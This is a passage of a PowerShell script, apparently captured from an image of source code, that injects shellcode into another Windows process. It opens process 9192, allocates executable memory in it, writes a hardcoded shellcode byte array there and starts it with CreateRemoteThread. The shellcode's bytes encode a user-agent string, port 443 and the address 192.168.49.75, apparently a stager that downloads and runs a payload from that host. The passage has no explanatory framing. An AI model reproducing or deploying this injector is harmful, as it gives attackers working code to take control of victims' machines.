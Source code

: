 return $type.CreateType()

}

$ProcessID = 9192

# Open a handle to the process you want to inject into
$hProcess = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll OpenProcess),(getDelegateType @([UInt32], [Bool], [UInt32]) ([IntPtr]))).Invoke(0x001F0FFF, $false, $ProcessID)

[Byte[]] $Shellcode = 0xfc,0xe8,0x8f,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0xf,0xb7,0x4a,0x26,0x8b,0x72,0x28,0x31,0xff,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0x49,0x75,0xef,0x52,0x8b,0x52,0x10,0x8b,0x42,0x3c,0x1,0xd0,0x57,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4c,0x1,0xd0,0x8b,0x48,0x18,0x8b,0x58,0x20,0x50,0x1,0xd3,0x85,0xc9,0x74,0x3c,0x49,0x31,0xff,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xc0,0xc1,0xcf,0xd,0xac,0x1,0xc7,0x38,0xe0,0x75,0xf4,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe0,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xe9,0x80,0xff,0xff,0xff,0x5d,0x68,0x6e,0x65,0x74,0x0,0x68,0x77,0x69,0x6e,0x69,0x54,0x68,0x4c,0x77,0x26,0x7,0xff,0xd5,0x31,0xdb,0x53,0x53,0x53,0x53,0x53,0xe8,0x3e,0x0,0x0,0x0,0x4d,0x6f,0x7a,0x69,0x6c,0x6c,0x61,0x2f,0x35,0x2e,0x30,0x20,0x28,0x57,0x69,0x6e,0x64,0x6f,0x77,0x73,0x20,0x4e,0x54,0x20,0x36,0x2e,0x31,0x3b,0x20,0x54,0x72,0x69,0x64,0x65,0x6e,0x74,0x2f,0x37,0x2e,0x30,0x3b,0x20,0x72,0x76,0x3a,0x31,0x31,0x2e,0x30,0x29,0x20,0x6c,0x69,0x6b,0x65,0x20,0x47,0x65,0x63,0x6b,0x6f,0x0,0x68,0x3a,0x56,0x79,0xa7,0xff,0xd5,0x53,0x53,0x6a,0x3,0x53,0x53,0x68,0xbb,0x1,0x0,0x0,0xe8,0xb6,0x0,0x0,0x0,0x2f,0x57,0x34,0x62,0x44,0x62,0x55,0x6c,0x6b,0x55,0x55,0x53,0x63,0x79,0x5a,0x33,0x49,0x5f,0x57,0x35,0x32,0x6b,0x67,0x52,0x54,0x44,0x73,0x56,0x46,0x39,0x7a,0x79,0x6f,0x62,0x52,0x30,0x38,0x4f,0x0,0x50,0x68,0x57,0x89,0x9f,0xc6,0xff,0xd5,0x89,0xc6,0x53,0x68,0x0,0x32,0xe8,0x84,0x53,0x53,0x53,0x57,0x53,0x56,0x68,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x96,0x6a,0xa,0x5f,0x68,0x80,0x33,0x0,0x0,0x89,0xe0,0x6a,0x4,0x50,0x6a,0x1f,0x56,0x68,0x75,0x46,0x9e,0x86,0xff,0xd5,0x53,0x53,0x53,0x53,0x56,0x68,0x2d,0x6,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x14,0x68,0x88,0x13,0x0,0x0,0x68,0x44,0xf0,0x35,0xe0,0xff,0xd5,0x4f,0x75,0xcd,0xe8,0x4a,0x0,0x0,0x0,0x6a,0x40,0x68,0x0,0x10,0x0,0x0,0x68,0x0,0x0,0x40,0x0,0x53,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x53,0x89,0xe7,0x57,0x68,0x0,0x20,0x0,0x0,0x53,0x56,0x68,0x12,0x96,0x89,0xe2,0xff,0xd5,0x85,0xc0,0x74,0xcf,0x8b,0x7,0x1,0xc3,0x85,0xc0,0x75,0xe5,0x58,0xc3,0x5f,0xe8,0x6b,0xff,0xff,0xff,0x31,0x39,0x32,0x2e,0x31,0x36,0x38,0x2e,0x34,0x39,0x2e,0x37,0x35,0x0,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x0,0x53,0xff,0xd5

$RemoteMemAddr = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAllocEx),(getDelegateType @([IntPtr], [IntPtr], [Uint32], [UInt32], [UInt32]) ([IntPtr]))).Invoke($hProcess, [IntPtr]::Zero, $Shellcode.Length + 1, 0x3000, 0x40)

[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WriteProcessMemory),(getDelegateType @([IntPtr], [IntPtr], [Byte[]], [UInt32], [UInt32].MakeByRefType()) ([Bool]))).Invoke($hProcess, $RemoteMemAddr, $Shellcode, $Shellcode.Length, [Ref] 0) | Out-Null

$CreateRemoteThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateRemoteThread),(getDelegateType @([IntPtr], [IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke($hProcess, [IntPtr]::Zero, 0, $RemoteMemAddr, [IntPtr]::Zero, 0, [IntPtr]::Zero)